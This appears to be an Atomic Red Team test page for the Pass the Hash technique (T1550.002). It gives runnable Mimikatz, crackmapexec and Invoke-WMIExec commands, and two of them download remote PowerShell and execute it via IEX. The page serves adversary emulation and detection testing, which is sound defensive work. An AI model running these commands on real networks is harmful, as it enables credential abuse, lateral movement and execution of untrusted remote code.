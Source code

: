```yaml
---
tags: [T1550_002, atomic_test]
filename: "[[T1550.002|T1550.002 - Use Alternate Authentication Material: Pass the Hash]]"
---
```

# T1550.002 - Use Alternate Authentication Material: Pass the Hash

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** ec23cef9-27d9-46e4-a68d-6f75f7b86908





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | %userdnsdomain%|
| mimikatz_path | mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


**auto_generated_guid:** eb05b028-16c8-4ad8-adea-6f5b219da9a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| crackmapexec_exe | crackmapexec windows executable | path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|
| command | command to execute | string | whoami|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | %userdnsdomain%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{crackmapexec_exe} #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```




#### Dependencies:  Run with `powershell`!
##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```powershell
if(Test-Path #{crackmapexec_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>
<br/>

## Atomic Test #3 - Invoke-WMIExec Pass the Hash
Use Invoke-WMIExec to Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** f8757545-b00a-4e4e-8cfb-8cfb961ee713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| user_name | username | string | Administrator|
| command | Command to run on target system | string | hostname|
| target | System to run command on | string | $env:COMPUTERNAME|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/01ee90f934313acc7d09560902443c18694ed0eb/Invoke-WMIExec.ps1' -UseBasicParsing);Invoke-WMIExec -Target #{target} -Username #{user_name} -Hash #{ntlm} -Command #{command}
```






<br/>
